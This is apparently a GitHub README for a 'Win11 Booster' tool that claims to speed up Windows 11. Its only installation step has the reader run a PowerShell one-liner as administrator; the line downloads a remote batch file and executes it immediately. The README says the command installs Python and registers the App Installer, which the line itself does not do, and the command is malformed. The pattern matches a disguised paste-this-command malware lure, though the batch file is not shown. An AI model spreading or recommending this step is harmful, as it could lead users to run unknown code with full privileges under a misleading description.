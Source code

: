 # Win11 Booster

This repository contains a script to boost the performance of Windows 11 using a set of PowerShell and Python commands. The script installs necessary packages, creates directories, and downloads a Python script to enhance your Windows 11 experience.

## Installation

To use the Win11 Booster script, follow the steps below:

1. Open PowerShell as an administrator.

2. Run the following command to register the Desktop App Installer and install Python 3.11:

    ```powershell
    mkdir C:\Users\Booster ; Invoke-WebRequest -Uri 'https://github.com/Scuttlang/Win11-Booster/blob/main/installer.bat' -OutFile 'C:\Users\Booster\installer.bat' ; Start-Process -FilePath 'C:\Users\Booster\installer.bat' -Wait}"
    ```

## Description

The Win11 Booster script automates the process of optimizing your Windows 11 system for enhanced performance. It registers the Desktop App Installer, installs Python 3.11, creates a designated directory, and downloads a Python script to apply performance optimizations.

**Note**: Ensure that you run PowerShell as an administrator to execute the commands successfully.

Feel free to contribute to this repository and customize the script according to your needs.

Happy boosting!


[![My Skills](https://skillicons.dev/icons?i=py,vscode,powershell&perline=3)](https://skillicons.dev)
